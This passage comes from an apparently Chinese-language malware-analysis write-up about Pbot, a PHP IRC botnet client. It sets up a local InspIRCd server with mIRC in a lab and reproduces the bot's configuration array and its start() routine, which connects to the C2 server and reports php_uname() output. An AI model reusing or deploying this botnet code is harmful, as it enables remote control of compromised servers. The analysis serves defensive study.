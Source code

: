 修改`bind address`监听在`0.0.0.0`

启动服务`service inspircd start `

2.使用mIRC软件模拟通信

在Windows下面可以使用mIRC软件进行irc通信，[下载地址](https://www.mirc.com/get.html) 

创建一个IRC Servers `irc.local`，地址为`192.168.3.195`，密码可以为空

连接上本地IRC服务器后我们创建一个channel，叫做`#php`

![1528252223926](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1528252223926.png)

这样就加入了`#php`channel



##  0x02 Pbot

Pbot是使用php编写的IrcBot

### 连接配置
我们修改bot的连接配置，其中`hostauth`是受信任的控制端，黑客会设置为自己的ip，我们将之设置为`*`
```php
$cfg = array(
    "server" => "192.168.3.195",	//irc服务器地址
    "port" => "6667",
    "key" => "",
    "prefix" => "",
    "maxrand" => "8",
    "chan" => "#php",				//加入的频道
    "trigger" => ".",				//指令分隔符
    "hostauth" => "*"				//受信任的远程主机，修改为*
);
```

然后可以增加一行语句来输出当前的connection状态，方便查看

`echo fgets($this->conn, 512);`

初始化阶段bot先设置好一些信息，例如服务器ip、端口等
```php
public function start($cfg)
{
    $this->config = $cfg;
    while (true) {
        if (!($this->conn = fsockopen($this->config['server'], $this->config['port'], $e, $s, 30)))
            $this->start($cfg);
        $ident = $this->config['prefix'];
        $alph = range("0", "9");
        for ($i = 0; $i < $this->config['maxrand']; $i++)
            $ident .= $alph[rand(0, 9)];
        $this->send("USER " . $ident . " 127.0.0.1 localhost :" . php_uname() . "");
        $this->set_nick();
        $this->main();
    }
}
```
